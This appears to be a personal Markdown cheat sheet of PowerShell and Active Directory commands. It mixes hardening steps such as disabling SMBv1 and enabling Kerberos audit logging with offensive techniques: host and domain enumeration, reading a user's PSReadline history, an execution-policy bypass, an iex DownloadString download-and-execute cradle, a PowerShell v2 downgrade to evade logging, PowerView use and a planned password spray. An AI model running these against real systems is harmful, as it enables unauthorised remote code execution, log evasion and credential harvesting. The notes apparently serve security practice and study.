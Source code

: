 ## disable SMBv1 "Eternal Blue"
### check
```powershell
Get-SmbServerConfiguration | Select EnableSMB1Protocol
```
### disable
```powershell
Set-SmbServerConfiguration -EnableSMB1Protocol $false
```
### check for service principal names
```powershell
setspn -L <hostname>
Get-ADUser -Filter {ServicePrincipalName -ne '$null'} -Properties ServicePrincipalName
```
### Deregister spn
```powershell
setspn -d <serviceClass/Host:Port> <AccountName>
```
### Backup DNS

```powershell
Export-DnsServerZone -Name <zonename> -filename <zonename.dns.bak>
```
- will be stored in C:\Windows\System32\dns

## add local computer to allow psremoting via WSMAN works on powershell 7 or core
```powershell
Set-Item WSMan:\localhost\client\trustedhosts -Value '192.168.50.101,192.168.50.100,172.21.0.11,172.21.0.222,172.21.0.78'

```
```powershell
New-PSSession -name 'test' -ComputerName '192.168.50.101'
Enter-PSSession -name 'test'
$x = New-PSSession -name 'test' -ComputerName '192.168.50.101' -Credential 'WWE\Administrator'
Invoke-Command -Session $x -Computername '192.168.50.101' -Scriptblock {whoami}
```

## map network drives
```powershell
New-PSDrive -Name X -PSProvider FileSystem -Root \\192.168.220.80\backups -Credential 'coastbackup' -Persist
```
### setting up kerberos logging command line
- check gpos for domain
```powershell
Get-GPO -All -Domain "sales.contoso.com"
```
- easier to do through group policy graphically, but we can update the audit policy directly

```powershell
Set-SystemAuditPolicy -AccountLogon 'Kerberos Authentication Service' -Value SuccessAndFailure -Verbose
Set-SystemAuditPolicy -AccountLogon 'Kerberos Service Ticket Operations' -Value SuccessAndFailure -Verbose

```
- trying a password spray attack, lets see if logs show up


## good enumeration commands
```powershell
hostname
[System.Environment]::OSVersion.Version
wmic qfe get Caption,Description,HotFixID,InstalledOn
ipconfig /all
set
```


```cmd
echo %USERDOMAIN%
echo %logonserver%
```

## powershell enumeration
```powershell
Get-ExecutionPolicy -List
Set-ExecutionPolicy Bypass -Scope Process
Get-Content C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt
Get-ChildItem Env: | ft Key,Value
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); <follow-on commands>"

```
- Powershell event logging was introduced as a feature with Powershell 3.0 and forward. With that in mind, we can attempt to call Powershell version 2.0 or older. If successful, our actions from the shell will not be logged in Event Viewer. 
```powershell
powershell.exe -version 2
```

## powersploit/powerview
- add folder to path where powershell modules are store C:\Users\Documents\WindowsPowerShell\Modules
- Import-Module Powersploit
- dot source powerview.ps1 . .\powerview.ps1
- see documentation for available commands
[powersploit](https://github.com/PowerShellMafia/PowerSploit)

- see if anyone else is logged in
```powershell
qwinsta
```
## wmi enumeration
```powershell
wmic qfe get Caption,Description,HotFixID,InstalledOn 	#Prints the patch level and description of the Hotfixes applied
wmic computersystem get Name,Domain,Manufacturer,Model,Username,Roles /format:List #Displays basic host information to include any attributes within the list
wmic process list /format:list 	#A listing of all processes on host
wmic ntdomain list /format:list 	#Displays information about the Domain and Domain Controllers
wmic useraccount list /format:list 	#Displays information about all local accounts and any domain accounts that have logged into the device
wmic group list /format:list 	#Information about all local groups
wmic sysaccount list /format:list
```
## dsquery
- gives full path to ldap distiguished names for objects, users, groups!
```powershell
dsquery user
dsquery computer
dsquery group
dsquery * -filter "(&(objectClass=user)(userAccountControl:1.2.840.113556.1.2.803:=64))" -attrs SamAccountName 
distiguishedName 
dsquery * -filter "(userAccountControl:1.2.840.113556.1.4.803:=8192)" -limit 5 -attr sAMAccountName
```
![Alt text](image.png)
- 1.2.840.113556.1.4.803 matches exactly
- 1.2.840.113556.1.4.804 matches if any are a match, for multiple entries
- 1.2.840.113556.1.4.1941 applies to Distiguished names